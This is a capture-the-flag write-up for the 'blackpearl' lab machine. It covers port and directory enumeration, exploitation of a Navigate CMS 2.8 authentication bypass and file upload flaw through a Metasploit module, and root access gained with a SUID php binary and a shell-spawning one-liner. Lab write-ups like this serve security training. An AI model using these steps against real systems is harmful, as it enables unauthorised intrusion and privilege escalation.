

# Description:
- NONE

# Information Gathering

## Enumeration

### nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2

```
#### Port 80 nginx 1.14.2 Webserver Default
nginx 1.14.2
Commentary on Website:
`Webmaster: alek@blackpearl.tcm`
--> added `blackpearl.tcm` to /etc/hosts
-> found index.php: phpinfo()

#### gobuster dir scan
`/secret` -> Note with 'Directory busting not needed' (with IP)
`/navigate` -> CMS Navigate 2.8 (with host)

#### nikto
`/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.`

#### Port 53 ISC? dns? UDP?
Pentestind Dns
ISC Bind 9.11.5-P4-5.1
```shell
dig -x blackpearl.tcm @192.168.111.12                                             
; <<>> DiG 9.19.17-2~kali1-Kali <<>> -x blackpearl.tcm @192.168.111.12
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 59547
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: a59c48e9058c21865a28dbb0658ad523a0c9284d86cb2043 (good)
;; QUESTION SECTION:
;tcm.blackpearl.in-addr.arpa.	IN	PTR

;; Query time: 4 msec
;; SERVER: 192.168.111.12#53(192.168.111.12) (UDP)
;; WHEN: Tue Dec 26 12:05:39 EST 2023
;; MSG SIZE  rcvd: 84

```
-> nothing interesting
#### gobuster
Nothing found with vhost/dns module


# Exploitation

Navigate CMS 2.8 is vulnerabele to Remote Code Execution (Metasploit-Module)
```shell
Payload information:

Description:
  This module exploits insufficient sanitization in the database::protect
  method, of Navigate CMS versions 2.8 and prior, to bypass authentication.

  The module then uses a path traversal vulnerability in navigate_upload.php
  that allows authenticated users to upload PHP files to arbitrary locations.
  Together these vulnerabilities allow an unauthenticated attacker to
  execute arbitrary PHP code remotely.

  This module was tested against Navigate CMS 2.8.
```


### Linpeas 

```shell
[REDACTED]
╔══════════╣ SUID - Check easy privesc, exploits and write perms
[REDACTED]
-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
[REDACTED]
```
`gtfobins SUID bit set`: 

```shell
CMD="/bin/sh"
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```
Root Access:

```shell
ls /root
flag.txt  interfaces

cat /root/flag.txt
Good job on this one. Finding the domain name may have been a little guessy, but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
```
---

### References & Further Research
- [CVE-2018-17552](https://nvd.nist.gov/vuln/detail/CVE-2018-17552)
- [CVE-2018-17553](https://nvd.nist.gov/vuln/detail/CVE-2018-17553)
- [GTFO-BINS_Php](https://gtfobins.github.io/gtfobins/php)
